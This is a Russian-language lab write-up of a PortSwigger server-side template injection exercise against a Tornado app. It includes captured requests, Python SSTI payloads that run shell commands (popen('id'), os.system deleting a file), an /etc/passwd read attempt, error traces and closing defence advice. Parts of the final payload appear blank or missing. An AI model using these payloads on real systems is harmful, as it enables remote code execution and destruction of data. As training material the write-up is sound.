


лаба https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context
#### Basic server-side template injection (code context)

задание - удалить файл morale.txt в хом каталоге карлоса

-----

есть вот такой функционал выбора отображения ника!



ник отображается в комментах


-------

вот post запрос который меняет ник

```http
POST /my-account/change-blog-post-author-display HTTP/2
Host: 0a8e00110332af4480a48fb9007c00c1.web-security-academy.net
Cookie: session=G7UslkIuW6lQnSKbYrTTMLB6fo8fOm1L
Content-Length: 78
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a8e00110332af4480a48fb9007c00c1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a8e00110332af4480a48fb9007c00c1.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

blog-post-author-display=user.first_name&csrf=QFN1SXQLj43xh3BQ6Ca01iKn238Yh0IC
```

меня интересует засть параметров display=user.first_name

то есть видно, что тут идет обращение к сущности(классу/обьекту) user со своими свойствами!

ну и результат отображается в комментах!

в иделале, если можно будет выполнить код, то нужно его как-то сохранить/ перезаписать, чтобы он отображался по новому каждый раз!

-------

но все видимо, проще, отправил запрос с такими параметрами
`blog-post-author-display=1337👈&csrf=QFN1SXQLj43xh3BQ6Ca01iKn238Yh0IC`
и в комментах отразился ответ сразу
```html
<p>
                            1337👈
 | 20 March 2026
</p>
```
-------

теперь осталось понять, есть ли защита, и потом понять, какой язык системы там!

-----

иду вот сюда [[0_theory_Server-Side-Template-Injection-(SSTI)]]

там есть и общий список пейлоадов, и еще шпаргалка по языкам

-----

отправил пейлоад c параметром
```
blog-post-author-display=<%= File.read('/etc/passwd') %>&csrf=QFN1SXQLj43xh3BQ6Ca01iKn238Yh0IC
```

и воскочила ошибка
```c
No handlers could be found for logger "tornado.application" Traceback (most recent call last): 

File "<string>", line 15, in <module> File "/usr/local/lib/python2.7/dist-packages/tornado/template.py", line 317, in __init__ "exec", dont_inherit=True) File "<string>.generated.py", line 4 _tt_tmp = <%= File.read('/etc/passwd') %> # <string>:1 ^ SyntaxError: invalid syntax
```

видно что здесь python2.7/dist-packages/tornado

ОТЛИЧНО!!

------
пробую пейлоады на питоне

### Python (Jinja2, Mako, Tornado)
```c

{{6*6}}
{{self.__init__.__globals__.__builtins__}}
{{''.__class__.__mro__[1].__subclasses__()}}
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

сделал запрос `{{6*6}}` и вот ответ:




------

пробую удалить карлоса теперь
запрос ` {{ rm /home/carlos/morale.txt }}` 
в ответе ошибка синтаксиса
```c
Traceback (most recent call last):

  File &quot;&lt;string&gt;&quot;, line 16, in &lt;module&gt;
  
  File &quot;/usr/local/lib/python2.7/dist-packages/tornado/template.py&quot;, line 348, in generate
    
    return execute()
    
  File &quot;&lt;string&gt;.generated.py&quot;, line 5, in _tt_execute
NameError: global name &apos;rm&apos; is not defined
```

пробую запрос `    ` 
тоже ошибка

-------

пробую вытащить данные
`{{ user.first_name }}`
в ответе peter пришел
```c
<p>
                            {{Peter}}
 | 20 March 2026
</p>
```

---------
пробую `{{ user.first_name }}{ user.first_name }`
в ответе `{{Peter{ user.first_name }}}`

-----
пробую выйти из скоб
если так `{{ user.first_name }}{{ user.first_name }}`
то ответ `{{PeterPeter}}`
скобки тоже отображаются как текст!


--------
поэтому - пробую закодировать скобки   %7B {    } %7D
пробую `{{ user.first_name }}%7B%7B user.first_name %7D%7D`
ответ обычный двойной `{{PeterPeter}}`
то есть спокойно раскодируются мои скобки кодированные

----


⭐️ делаю вот такой пейлоад (из решения)

```c
user.first_name}}{{ os.system('rm /home/carlos/morale.txt')


--------


Разбор по частям:

user.first_name}} - закрывает текущее выражение {{ user.first_name }}

    
 - выполняет Python-код: импортирует модуль os


os — это стандартный модуль Python для взаимодействия с операционной системой. Он дает доступ к функциям для работы с файлами, процессами, переменными окружения и выполнению команд

--------------------------
ПРИМЕР:


    os.system() - выполняет команду в shell и возвращает код возврата
    
    os.popen() - выполняет команду и дает прочитать вывод
    
    os.listdir() - показывает содержимое директории
    
    os.path.exists() - проверяет существование файла
    
    os.remove() - удаляет файл
---------------------------
    
    
    
{{ os.system('rm /home/carlos/morale.txt') - открывает новое выражение, выполняет системную команду и выводит результат

```
ответ 500 
`rm: cannot remove &apos;/home/carlos/morale.txt&apos;: No such file or directory`


ЛАБА РЕШЕНА.

-----


#### выводы + защита

ввод в параметры - отражался в ответе...
также код питона выполнялся 6 на 6  дал 36
уже уязвимость!

делее:
не было никакой защиты от спец сиволов!

у меня, как у обычного юзера был рут доступ через внешние апи

все это сработало наверно еще и потому , что скорее всего user.first_name был вставлен напрямую в шаблон, а не передан как данные

параметр user.first_name был вставлен напрямую в шаблон, а не передан как данные  

Tornado не экранирует пользовательский ввод внутри шаблонов  

синтаксис Tornado позволяет выполнять произвольный Python-код через   

модуль os был доступен для импорта и его функции system выполнили команду в shell

#### как защититься  

в Tornado нужно использовать экранирование 
через {{ escape(user.first_name) }} или передавать данные через параметры, а не склеивать строки  


никогда не вставлять пользовательский ввод напрямую в шаблон, даже если кажется что это безопасно  

в шаблонизаторах всегда должен быть четкий раздел между шаблоном и данными  

использовать функции экранирования для всех данных от пользователя  
шаблон должен быть статическим, а динамическими только значения переменных